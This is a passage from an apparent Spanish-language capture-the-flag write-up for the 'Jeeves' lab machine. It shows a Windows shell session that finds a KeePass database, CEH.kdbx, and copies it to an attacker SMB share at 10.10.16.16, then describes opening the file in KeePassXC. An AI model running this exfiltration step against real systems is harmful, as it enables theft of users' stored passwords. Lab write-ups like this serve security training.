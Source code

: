 ```
C:\Users\kohsuke\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\kohsuke\Documents

11/03/2017  11:18 PM    <DIR>          .
11/03/2017  11:18 PM    <DIR>          ..
09/18/2017  01:43 PM             2,846 CEH.kdbx
               1 File(s)          2,846 bytes
               2 Dir(s)   2,612,834,304 bytes free

C:\Users\kohsuke\Documents>copy CEH.kdbx \\10.10.16.16\smbFolder\CEH.kdbx         
copy CEH.kdbx \\10.10.16.16\smbFolder\CEH.kdbx
        1 file(s) copied.
```

Para ver el contenido del archivo nos vamos a descargar `KeepassXC` [https://keepass.info/download.html](https://keepass.info/download.html), le vamos a dar permisos de ejecución y vamos a cargar el archivo `.kdbx`. Para abrir el archivo debemos `ejecutar` el `binario` y posteriormente en la parte superior izquierda pulsar en `Database` y luego `Open Database`

![](/assets/img/Jeeves/image_5.png)
